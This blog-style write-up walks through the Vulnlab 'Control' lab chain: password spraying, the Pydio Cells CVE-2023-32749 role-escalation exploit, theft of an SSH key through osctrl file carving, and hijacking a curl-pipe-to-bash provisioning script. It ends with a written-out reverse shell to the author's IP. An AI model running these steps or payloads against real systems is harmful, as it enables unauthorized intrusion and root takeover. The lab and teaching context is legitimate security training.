





---

layout: post
title: VL Control (Chain hard 
date: 19-12-2024
categories: [Vulnlab, Chain]
tag: [Vulnlab, Chain, Osctrl, Pydio Cells, Linux]
author: Ethicxz
image: assets/image_start/control_slide.png
description: VL Chain Control by Ethicxz
---

# Before starting

```console
Target IP's : 10.10.168.229 - 10.10.168.230

# Nmap scan : nmap -vvv -sC -sV -T4 -p- 10.10.168.229 -oN scan1.txt ; nmap -vvv -sC -sV -T4 -p- 10.10.130.230 -oN scan2.txt

# 10.10.168.229

22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 befacfc3c8b15011f2b073b8c5ad3d0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA1/jc+fW8fJ6n+8hJYy9JCZ6/SX71BHCkvT0EI7DSG3hss3s2dzMywr9p3Qtl4RxNHOKn9uJ6zOcdfjhiOhBr8=
|   256 ef4ed47eccdcd69091d8ed1d7b8807b4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHx5aS41++jw4zJxMQSRZIPP/q/eDoRl7/94I3kj6bTl
443/tcp open  ssl/http syn-ack ttl 62 nginx 1.25.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_ssl-date: TLS randomness does not represent time
|_http-trane-info: Problem with XML parsing of /evox/about
| ssl-cert: Subject: commonName=wiki.intra.control.vl/organizationName=Belleville/countryName=CA/localityName=Ontario
| Issuer: commonName=wiki.intra.control.vl/organizationName=Belleville/countryName=CA/localityName=Ontario
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-06-30T12:30:10
| Not valid after:  2033-06-27T12:30:10
| MD5:   2c4a9dfc9833420777d28a87647df2c8
| SHA-1: 9b40025ff96197d7afd4bce5074cbd07a49bba4e
| -----BEGIN CERTIFICATE-----
| MII...qY=
|_-----END CERTIFICATE-----
|_http-generator: DokuWiki
|_http-server-header: nginx/1.25.0
|_http-title: start [control.vl Intranet]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# 10.10.168.230

443/tcp open  ssl/http syn-ack ttl 63 nginx
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=os.control.vl/organizationName=Belleville/countryName=CA/localityName=Ontario
| Issuer: commonName=os.control.vl/organizationName=Belleville/countryName=CA/localityName=Ontario
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-06-30T16:21:40
| Not valid after:  2033-06-27T16:21:40
| MD5:   c117d1c3d34bc96a95d236975b99f57c
| SHA-1: 5d9d7358f8e86448628775e831bed3a4fb2c8c4c
| -----BEGIN CERTIFICATE-----
| MII...Aw==
|_-----END CERTIFICATE-----
80/tcp open  http    syn-ack ttl 63 nginx
|_http-title: Did not follow redirect to https://10.10.168.230/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 050f88bfa3a3b9f1d782fcb1921990ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO1Qki06LOmwospye5U5yxzF5lCogojO0I4zlQ+SSjPCQf1WrXSCWgV6SiyY2YVHdbM4uuBvL/0W5dWn3VdRIJg=
|   256 0b53d65d214a641d69aabd01778790cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICLYYGUDJdxsADBF9kRB1jDRJLIPh7lBE9VgLT0uYh4j
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
## Get access to Pydio Cells

```console
# /etc/hosts
10.10.168.229 wiki.intra.control.vl control.vl
10.10.168.230 os.control.vl control.vl
```
On 10.10.168.230 we have nothing interesting

But on 10.10.168.229 particulary on this url : ```https://wiki.intra.control.vl/cells```, we can see a another subdomain : ```cells.intra.control.vl```, so let's add it to our ```/etc/hosts```

We can also see this : 



So we probably need to find some users and spray the password on the cells.intra.control.vl login page

If we digging deeper on the site, we can find some pictures with some users on it, for example :



So after browsing to find as many users as possible on the site we can obtain this users.txt :

```console
a.larose
a.rodriguez
k.leblanc
k.dagenais
s.thibodeau
j.george
a.larose
```
We can spray the password : ```Summer2023!``` and we be able to login with ```k.dagenais;Summer2023!```

But our user is not very interesting, after some research we can use this PoC :

## Exploit Pydio Cells and get a shell on a machine
[CVE-2023-32749](https://github.com/xcr-19/CVE-2023-32749)

```Pydio Cells allows users by default to create so-called external users in order to share files with them. By modifying the HTTP request sent when creating such an external user, it is possible to assign the new user arbitrary roles. By assigning all roles to a newly created user, access to all cells and non-personal workspaces is granted.```

So with this PoC we will be able to create a new user with some interesting roles.

```bash
python3 exploit.py -u 'k.dagenais' -p 'Summer2023!' -l 'https://cells.intra.control.vl'
[*] Got the JWT token aOCLaH8m5zs2qYTMJsKGCDGIvRcnAXsq6Bn2bFB0Fys.2Pi0li_YOzcBpB80wuJAn92Qst5u6t0tYiOI6AJNVbc
[*] Got uuids for the new user
[*] Created new user: foobar with password: hunter2
{"Uuid":"e8f...ect":"allow"}]}
```
Login as ```foobar;hunter2```

And we can access to another ```cells``` called ```osquery```

Browsing on the site, we will be able to find a password ```Te...ei``` in a message :

```
@Kara: I added this room to share scripts, outputs, documents for our osquery project and already added some documents.
Also, as discussed I created the provision user on os.control.vl with password REDACTED so we can start using your temporary provisioning solution on the first servers for testing.
```
Using ```provision;THE_PASS_IN_THE_MESSAGE```, we will be able to login in ssh :

```bash
nxc ssh 10.10.130.230 -u provision -p 'REDACTED'
SSH         10.10.168.230   22     10.10.168.230    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.168.230   22     10.10.168.230    [+] provision:REDACTED  Linux - Shell access!
```
After some research on the machine we can find this :

## Access to Osctrl

```bash
provision@os:/opt/osctrl$ pwd
/opt/osctrl

provision@os:/opt/osctrl$ ls -la
drwxr-xr-x 7 root   root       4096 Jun 30  2023 .
drwxr-xr-x 4 root   root       4096 Jun 30  2023 ..
drwxr-xr-x 2 osctrl osctrl     4096 Jun 30  2023 carved_files
drwxr-xr-x 2 root   root       4096 Jun 30  2023 config
drwxr-xr-x 2 root   root       4096 Jun 30  2023 data
-rwxr-xr-x 1 root   root   30599208 Jun 30  2023 osctrl-admin
-rwxr-xr-x 1 root   root   21633169 Jun 30  2023 osctrl-api
-rwxr-xr-x 1 root   root   20288904 Jun 30  2023 osctrl-cli
-rwxr-xr-x 1 root   root   34890829 Jun 30  2023 osctrl-tls
drwxr-xr-x 6 root   root       4096 Jun 30  2023 static
drwxr-xr-x 3 root   root       4096 Jun 30  2023 tmpl_admin
```
[Usage of osctrl-cli](https://osctrl.net/usage/osctrl-cli/)

With ```osctrl-cli``` we will be able to create a new user with admin rights, first list users to retrieve the ```Default Environment```

```bash
provision@os:/opt/osctrl$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user l
```
And add a new user : 

```bash
provision@os:/opt/osctrl$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user a --username toto --password toto --admin --environment '06db90ca-cdf6-4735-928c-17654a398aa3'

✅ created user toto successfully

# and list users again

provision@os:/opt/osctrl$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user l
Existing users (2):
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
| USERNAME | FULLNAME | ADMIN? |         DEFAULT ENVIRONMENT          | LAST IPADDRESS |         LAST USERAGENT         |
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
| admin    | Admin    | True   | 06db90ca-cdf6-4735-928c-17654a398aa3 | 10.211.55.2    | Mozilla/5.0 (Macintosh;        |
|          |          |        |                                      |                | Intel Mac OS X 10_15_7)        |
|          |          |        |                                      |                | AppleWebKit/537.36 (KHTML,     |
|          |          |        |                                      |                | like Gecko) Chrome/114.0.0.0   |
|          |          |        |                                      |                | Safari/537.36                  |
| toto     |          | True   | 06db90ca-cdf6-4735-928c-17654a398aa3 |                |                                |
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
```
Now forward like this :

```bash
ssh -L 9001:127.0.0.1:9001 -L 9002:127.0.0.1:9002 -L 9000:127.0.0.1:9000 provision@10.10.168.230
```
And login with ```toto;toto``` on 127.0.0.1:9001

## Play with Osctrl

After a few tests of functionalities on the site, we quickly understand what we can do, such as playing with the queries to obtain information or even obtaining files with the ```carve file``` option.

Example of interesting query : 

```sql
SELECT * FROM sudoers;

    {
      "source": "/etc/sudoers.d/os-control-vl",
      "header": "kara",
      "rule_details": "ALL=(ALL) NOPASSWD: ALL"
    }
```
So we can try to retrieve the kara ssh key and we will be able to be root 

Using the functionnality ```Carve File```, we can retrieve ```/home/kara/.ssh/id_ed25519``` and login with it :

```bash
nano id_ed25519

chmod 600 id_ed25519

ssh -L 9001:127.0.0.1:9001 -L 9002:127.0.0.1:9002 -L 9000:127.0.0.1:9000 -i id_ed25519 kara@10.10.168.230
```
```bash
kara@os:~$ sudo su

root@os:/home/kara# id
uid=0(root) gid=0(root) groups=0(root)
```
## Digging deeper in Osctrl

Now if we return on osctrl, we can enum ```intra.control.vl``` : 

```c
// check users on the host
    {
      "uid": "1000",
      "gid": "1000",
      "uid_signed": "1000",
      "gid_signed": "1000",
      "username": "steven",
      "description": "Steven Thibodeau",
      "directory": "/home/steven",
      "shell": "/bin/bash",
      "uuid": ""
    },
```
I tried to crack his password in /etc/shadow on ```os.control.vl``` but unsuccessfull

But we can retrieve the root@intra ssh public key thanks to osctrl :
```bash
# cat authorized_keys
command="/opt/provision/provision.sh" ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPY2yl4zl771A+n/7vbEB1kF/pbsC27XF5F5yV6Cd56S Temporary Provisioning Key

# pwd
/workspace/control/tmp/osquery_carve_902fa79e-b849-402b-a248-0491915887e3/root/.ssh
```
Now we can check the content of ```/opt/provision/provision.sh```

```bash
#!/usr/bin/bash

# (c) 2022-2023 by Kara Leblanc
#
# This is a temporary server provision wrapper for control.vl unix servers.
#
# For security reasons the provisioning ssh key is only allowed to run
# this script and not all commands on the machine.
# This script will only allow to run commands that are contained in special
# modules in the modules/ directory. Despite being highly secure there are
# probably better solutions to our problem but we need to evaluate them. We
# will therefore stick with this script for now.

set -- $SSH_ORIGINAL_COMMAND
if [[ -n $1 ]] ; then
  module=$(basename ${1})
  shift
  if [[ -f /opt/provision/modules/$module && -x /opt/provision/modules/$module ]] ; then
    exec "/opt/provision/modules/$module" "$@"
  fi
fi
```
In summary the script executes a file in ```/opt/provision/modules/``` on ```intra.control.vl``` thanks to an ssh key and with 2 arguments but first checks if the file is indeed an executable and that it exists

Now if if we check which files exist in ```/opt/provision/modules``` (still thanks to osctrl), we can find this script (```prov_osqd```) :

```bash
#!/usr/bin/bash
if  ; then
  echo "Missing options." >&2
  exit 42
fi
curl -sk https://os.control.vl/${1}/${2}/enroll.sh | bash
```
This script is reaching a file taking as url ```os.control.vl/our two arguments/enroll.sh``` and is executing ```enroll.sh```

So, since we are root on ```os.control.vl```, we can just modify nginx config files to control where the enroll.sh will be reach by the script ```/opt/provision/modules/prov_osqd``` on ```intra.control.vl```

First, create 2 directory, they will be our arguments, so the curl command will be something like : ```curl -sk https://os.control.vl/directory_1/directory_2/enroll.sh | bash```

## Finally Root

```bash
mkdir -p /var/www/toto/tata

# modify enroll.sh and add our public key in '/root/.ssh/authorized_keys'
cat enroll.sh
#!/bin/bash

echo "ssh-...+dQQ== root@exegol-vl" > /root/.ssh/authorized_keys
```
I tried to modify a lot of nginx configuration files but i don't know for what reason (probably skill issue lol) it didn't work so i finally modified ```/etc/nginx/sites-enabled/tls.conf``` like that :

```console
server {
    listen 443 ssl default deferred;

    ssl_certificate /etc/nginx/certs/osctrl.crt;
    ssl_certificate_key /etc/nginx/certs/osctrl.key;

    # Improve HTTPS performance with session resumption
    ssl_session_cache shared:SSL:10m;
    ssl_session_timeout 5m;

    # Enable server-side protection against BEAST attacks
    ssl_prefer_server_ciphers on;
    ssl_ciphers ECDH+AESGCM:ECDH+AES256:ECDH+AES128:DH+3DES:!ADH:!AECDH:!MD5;

    # Disable SSLv3
    ssl_protocols TLSv1.2 TLSv1.3;

    # Diffie-Hellman parameter for DHE ciphersuites
    # $ sudo openssl dhparam -out /etc/ssl/certs/dhparam.pem 4096
    ssl_dhparam /etc/nginx/certs/dhparam.pem;

    # Enable OCSP stapling (http://blog.mozilla.org/security/2013/07/29/ocsp-stapling-in-firefox)
    ssl_stapling on;
    ssl_stapling_verify on;
    ssl_trusted_certificate /etc/nginx/certs/osctrl.crt;
    resolver 1.1.1.1 8.8.8.8 valid=300s;
    resolver_timeout 5s;

    # Enable HSTS (https://developer.mozilla.org/en-US/docs/Security/HTTP_Strict_Transport_Security)
    add_header Strict-Transport-Security "max-age=63072000; includeSubdomains";
    add_header X-Frame-Options DENY;

    add_header Cache-Control "no-cache, no-store";
    add_header Pragma "no-cache";
    expires -1;

    location / {
        proxy_set_header        Host $host;
        proxy_set_header        X-Real-IP $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header        X-Forwarded-Proto $scheme;

        # Fix the “It appears that your reverse proxy set up is broken" error.
        proxy_pass          http://10.8.2.163:9999;
        proxy_read_timeout  90;
    }
}
``` 
So i just change this line ```proxy_pass  http://10.8.2.163:9999;``` with my ip, we can test :

```bash
python3 -m http.server 9999

curl -sk -v  https://10.10.168.230/toto/tata/enroll.sh | bash
```


And it works, now test by connecting with the ssh key on ```intra.control.vl```



Ok nice, just create ```/toto/tata/enroll.sh```

```bash
mkdir -p toto/tata
echo '#!/bin/bash' > toto/tata/enroll.sh
echo 'bash -c "bash -i >& /dev/tcp/10.8.2.163/1234 0>&1"' >> toto/tata/enroll.sh
```


And we got our root shell !! 

Nice !! If you have any questions you can dm me on discord : 'ethicxz.'


